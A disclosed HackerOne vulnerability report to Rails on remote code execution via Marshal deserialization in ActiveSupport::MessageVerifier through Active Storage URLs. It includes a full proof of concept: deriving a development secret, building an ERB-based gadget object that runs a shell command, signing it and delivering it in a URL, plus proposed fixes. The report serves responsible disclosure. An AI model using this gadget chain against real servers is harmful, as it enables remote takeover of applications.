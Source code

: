 # RCE which may occur due to `ActiveSupport::MessageVerifier` or `ActiveSupport::MessageEncryptor` (especially Active storage)

## Report Details
- **Report ID**: 473888
- **URL**: https://hackerone.com/reports/473888
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-01-02T03:20:45.831Z
- **Disclosed**: 2019-03-13T19:41:52.199Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
Since `ActiveSupport::MessageVerifier` and `ActiveSupport::MessageEncryptor` use Marshal as the default serializer, I confirmed that RCE is possible by object injection.


```ruby
# https://github.com/rails/rails/blob/v5.2.2/activesupport/lib/active_support/message_verifier.rb#L110
    def initialize(secret, options = {})
      raise ArgumentError, "Secret should not be nil." unless secret
      @secret = secret
      @digest = options[:digest] || "SHA1"
      @serializer = options[:serializer] || Marshal
    end
```

```ruby
# https://github.com/rails/rails/blob/v5.2.2/activesupport/lib/active_support/message_encryptor.rb#L145
def initialize(secret, *signature_key_or_options)
  options = signature_key_or_options.extract_options!
  sign_secret = signature_key_or_options.first
  @secret = secret
  @sign_secret = sign_secret
  @cipher = options[:cipher] || self.class.default_cipher
  @digest = options[:digest] || "SHA1" unless aead_mode?
  @verifier = resolve_verifier
  @serializer = options[:serializer] || Marshal
end
```

Especially in Rails 5.2 and later, `ActiveSupport::MessageVerifier` is used to validate the URL used in Active Storage, and attacks are possible.


```ruby
# https://github.com/rails/rails/blob/v5.2.2/activestorage/lib/active_storage/engine.rb#L81
initializer "active_storage.verifier" do
  config.after_initialize do |app|
    ActiveStorage.verifier = app.message_verifier("ActiveStorage")
  end
end
```

```ruby
# https://github.com/rails/rails/blob/v5.2.2/activestorage/app/controllers/active_storage/disk_controller.rb#L38
def decode_verified_key
  ActiveStorage.verifier.verified(params[:encoded_key], purpose: :blob_key)
end
```

It is also used in `ActiveStorage::Blob.find_signed`.
Also, these URLs can be accessed without using Active Storage.

### PoC

#### 1. Prepare server

```
$ ruby -v
ruby 2.6.0p0 (2018-12-25 revision 66547) [x86_64-darwin16]

$ rails -v
Rails 5.2.2

$ rails new verifier_rce
$ cd verifier_rce/
$ bundle install
```

```
# Active Storage is not installed, but routes is usable
$ bin/rails routes
Prefix Verb URI Pattern                                                                              Controller#Action
rails_service_blob GET  /rails/active_storage/blobs/:signed_id/*filename(.:format)                               active_storage/blobs#show
rails_blob_representation GET  /rails/active_storage/representations/:signed_blob_id/:variation_key/*filename(.:format) active_storage/representations#show
rails_disk_service GET  /rails/active_storage/disk/:encoded_key/*filename(.:format)                              active_storage/disk#show
update_rails_disk_service PUT  /rails/active_storage/disk/:encoded_token(.:format)                                      active_storage/disk#update
rails_direct_uploads POST /rails/active_storage/direct_uploads(.:format)                                           active_storage/direct_uploads#create
```

#### 2. Prepare payload

```ruby
$ ls /tmp/rce
ls: /tmp/rce: No such file or directory

$ bundle exec rails console
Running via Spring preloader in process 66998
Loading development environment (Rails 5.2.2)

irb(main):001:0> # emulate verifier
=> nil
irb(main):002:0> app_class_name = VerifierRce::Application.name
=> "VerifierRce::Application"
irb(main):003:0> secret_key_base = Digest::MD5.hexdigest(VerifierRce::Application.name)
=> "7e485df67863e85e584b3feecb22276d"
irb(main):004:0> key_generator = ActiveSupport::CachingKeyGenerator.new(ActiveSupport::KeyGenerator.new(secret_key_base, iterations: 1000))
=> #<ActiveSupport::CachingKeyGenerator:0x00007ff55ac60d48 @key_generator=#<ActiveSupport::KeyGenerator:0x00007ff55ac60d98 @secret="7e485df67863e85e584b3feecb22276d", @iterations=1000>, @cache_keys=#<Concurrent::Map:0x00007ff55ac60cf8 entries=0 default_proc=nil>>
irb(main):005:0> secret = key_generator.generate_key("ActiveStorage")
=> "\xB09\x11u/6#\x04\xE6\x15\x9C_\xBB\xE8\x94\xD0pn<\xFD\x15\x85\x95\x8BR\x82\x13\xCA\xC3\xDE\xAEB\x98\xDA\v\xD6+jI\xE6\x80\x9E\xC8$e\xE8(\xD5\x98\x82\x1FVy1\x9D>R\xAE\x9D\xAE\x88\xF1\xBA,"
irb(main):006:0> verifier = ActiveSupport::MessageVerifier.new(secret)
=> #<ActiveSupport::MessageVerifier:0x00007ff558aaee20 @secret="\xB09\x11u/6#\x04\xE6\x15\x9C_\xBB\xE8\x94\xD0pn<\xFD\x15\x85\x95\x8BR\x82\x13\xCA\xC3\xDE\xAEB\x98\xDA\v\xD6+jI\xE6\x80\x9E\xC8$e\xE8(\xD5\x98\x82\x1FVy1\x9D>R\xAE\x9D\xAE\x88\xF1\xBA,", @digest="SHA1", @serializer=Marshal, @options={}, @rotations=[]>
irb(main):007:0>


irb(main):008:0> # https://medium.com/@u0x/marshall-unserialization-exploit-for-ruby-on-rails-5-1-4-979475cfdba0
=> nil
irb(main):009:0> code = '`touch /tmp/rce`'
=> "`touch /tmp/rce`"
irb(main):010:0> erb = ERB.allocate
=> #<ERB:0x00007ff55acabdc0>
irb(main):011:0> erb.instance_variable_set :@src, code
=> "`touch /tmp/rce`"
irb(main):012:0> erb.instance_variable_set :@filename, "1"
=> "1"
irb(main):013:0> erb.instance_variable_set :@lineno, 1
=> 1
irb(main):014:0> dump_target  = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result
=> ""
irb(main):015:0>

irb(main):016:0> verifier.generate(dump_target, purpose: :blob_key)
=> "eyJfcmFpbHMiOnsibWVzc2FnZSI6IkJBaHZPa0JCWTNScGRtVlRkWEJ3YjNKME9qcEVaWEJ5WldOaGRHbHZiam82UkdWd2NtVmpZWFJsWkVsdWMzUmhibU5sVm1GeWFXRmliR1ZRY205NGVRazZEa0JwYm5OMFlXNWpaVzg2Q0VWU1FnZzZDVUJ6Y21OSkloVmdkRzkxWTJnZ0wzUnRjQzl5WTJWZ0Jqb0dSVlE2RGtCbWFXeGxibUZ0WlVraUJqRUdPd2xVT2d4QWJHbHVaVzV2YVFZNkRFQnRaWFJvYjJRNkMzSmxjM1ZzZERvSlFIWmhja2tpREVCeVpYTjFiSFFHT3dsVU9oQkFaR1Z3Y21WallYUnZja2wxT2g5QlkzUnBkbVZUZFhCd2IzSjBPanBFWlhCeVpXTmhkR2x2YmdBR093bFUiLCJleHAiOm51bGwsInB1ciI6ImJsb2Jfa2V5In19--78c21ddf5ca4239d862118730069e04fbf38fd3d"
```

```
# Confirm that the file was generated due to the side effect of creating payload
$ ls /tmp/rce
/tmp/rce

# Erase the file as it disturbs the operation check
$ rm /tmp/rce
$ ls /tmp/rce
ls: /tmp/rce: No such file or directory
```

#### 3. Attack

Start server.

```
$ bin/rails s
```

Open URL in browser.
(`GET  /rails/active_storage/disk/:encoded_key/*filename`, use payload for `:encoded_key`)

```
http://0.0.0.0:3000/rails/active_storage/disk/eyJfcmFpbHMiOnsibWVzc2FnZSI6IkJBaHZPa0JCWTNScGRtVlRkWEJ3YjNKME9qcEVaWEJ5WldOaGRHbHZiam82UkdWd2NtVmpZWFJsWkVsdWMzUmhibU5sVm1GeWFXRmliR1ZRY205NGVRazZEa0JwYm5OMFlXNWpaVzg2Q0VWU1FnZzZDVUJ6Y21OSkloVmdkRzkxWTJnZ0wzUnRjQzl5WTJWZ0Jqb0dSVlE2RGtCbWFXeGxibUZ0WlVraUJqRUdPd2xVT2d4QWJHbHVaVzV2YVFZNkRFQnRaWFJvYjJRNkMzSmxjM1ZzZERvSlFIWmhja2tpREVCeVpYTjFiSFFHT3dsVU9oQkFaR1Z3Y21WallYUnZja2wxT2g5QlkzUnBkbVZUZFhCd2IzSjBPanBFWlhCeVpXTmhkR2x2YmdBR093bFUiLCJleHAiOm51bGwsInB1ciI6ImJsb2Jfa2V5In19--78c21ddf5ca4239d862118730069e04fbf38fd3d/test
```

Confirm that the file was created.

```
$ ls /tmp/rce
/tmp/rce
```

## Impact

If the server is running in development mode with version 5.2 or later, if the attacker can know application name, `secret_key_base` can be obtained, so RCE can be easily done by accessing the URL.
In production mode, an attacker needs to know `secret_key_base`.

For versions less than 5.2, attacks are possible only if the user is able to input places using `ActiveSupport::MessageVerifier` or `ActiveSupport::MessageEncryptor` and the attacker knows `secret_key_base`.

### proposed measures

- Use `JSON.load` or `Yaml.safe_load` without using Marshal
- Disable access to URL if Active Storage is not used

## Attachments
No attachments
